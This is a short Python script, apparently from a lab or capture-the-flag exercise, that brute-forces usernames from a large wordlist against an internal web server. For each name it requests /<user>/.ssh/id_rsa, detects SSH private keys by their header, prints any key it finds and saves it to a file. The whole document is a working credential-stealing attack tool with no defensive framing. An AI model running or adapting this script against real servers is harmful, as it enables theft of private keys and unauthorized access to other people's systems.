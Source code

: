 Info:
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests
import re
import sys
from time import sleep


TARGET = "http://10.0.4.28:3333"  
WORDLIST = "/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt"
TIMEOUT = 5

KEY_RE = re.compile(r"-----BEGIN (RSA|OPENSSH|DSA|EC) PRIVATE KEY-----", re.IGNORECASE)
SPACES = " " * 60

try:
    with open(WORDLIST, "r", encoding="utf-8", errors="ignore") as f:
        for line in f:
            user = line.strip()
            if not user:
                continue

            url = f"{TARGET.rstrip('/')}/{user}/.ssh/id_rsa"
            try:
                r = requests.get(url, timeout=TIMEOUT)
            except requests.RequestException as e:
                print(f"[x] error for {user}: {e}{SPACES}", end="\r")
                sleep(0.1)
                continue

            body = r.text or ""
            if "NOT EXIST" in body or "not exist" in body.lower() or r.status_code == 404:
                print(f"[-] {user}{SPACES}", end="\r")
                continue

            if KEY_RE.search(body):
                print(f"\n[!!!] PRIVATE KEY FOUND for user: {user}")
                print(f"URL: {url}\n")
                print(body)
                with open("found_key.txt", "w", encoding="utf-8") as out:
                    out.write(f"=== USER: {user} | URL: {url} ===\n\n")
                    out.write(body)
                break

except KeyboardInterrupt:
    print("\n[!]Interrupted by user.")
    sys.exit(0)
except FileNotFoundError:
    print(f"[x] Couldn't find specified wordlist: {WORDLIST}")
    sys.exit(1)
```
